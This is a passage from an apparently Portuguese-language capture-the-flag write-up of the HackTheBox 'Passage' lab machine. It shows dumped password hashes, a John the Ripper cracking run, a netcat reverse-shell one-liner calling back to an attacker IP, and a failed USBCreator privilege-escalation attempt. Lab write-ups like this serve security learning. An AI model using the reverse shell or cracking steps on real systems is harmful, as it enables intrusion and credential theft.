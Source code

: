 ```bash
Enter the URL> http://passage.htb
================================================================
Users SHA-256 HASHES TRY CRACKING THEM WITH HASHCAT OR JOHN
================================================================
paul@passage.htb:e26f3e86d1f8108120723ebe690e5d3d61628f4130076ec6cb43f16f497273cd
```

```bash
$ john -format=raw-sha256 --wordlist=/usr/share/wordlists/rockyou.txt hashes
Created directory: /home/zurc/.john
Using default input encoding: UTF-8
Loaded 4 password hashes with no different salts (Raw-SHA256 [SHA256 256/256 AVX2 8x])
Warning: poor OpenMP scalability for this hash type, consider --fork=2
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
atlanta1         (?)
1g 0:00:00:02 DONE (2021-02-25 16:02) 0.4132g/s 5926Kp/s 5926Kc/s 17794KC/s (454579)..*7¡Vamos!
Use the "--show --format=Raw-SHA256" options to display all of the cracked passwords reliably
Session completed
```

Além da credencial, obtive um shell reverso interativo com a conta **www-data** a partir do envio do payload a seguir: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 4443 >/tmp/f`.

## User flag

Após executar o script `linpeas.sh`, encontrei alguns itens interessantes:

- Máquina é vulnerável a USBCreator

```plaintext
[+] USBCreator
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation/d-bus-enumeration-and-command-injection-privilege-escalation
Vulnerable!!
```

- Embora seja vulnerável, quando tentei explorá-la conforme explicado [neste link](https://unit42.paloaltonetworks.com/usbcreator-d-bus-privilege-escalation-in-ubuntu-desktop/), não funcionou corretamente dado a privilégios insuficientes deste usuário.

```bash
www-data@passage:~$ gdbus call --system --dest com.ubuntu.USBCreator --object-path /com/ubuntu/USBCreator --method com.ubuntu.USBCreator.Image /root/root.txt /tmp/somefilename true
Error: GDBus.Error:org.freedesktop.DBus.Python.dbus.exceptions.DBusException: com.ubuntu.USBCreator.Error.NotAuthorized
(According to introspection data, you need to pass 'ssb')
```

- Observado 2 usuários na máquina, que inicialmente foram listados quando encontrei os endereços de e-mail e, para o usuário Paul, já temos uma possível senha.

```plaintext
[+] Users with console
nadav:x:1000:1000:Nadav,,,:/home/nadav:/bin/bash
paul:x:1001:1001:Paul Coles,,,:/home/paul:/bin/bash
root:x:0:0:root:/root:/bin/bash
```
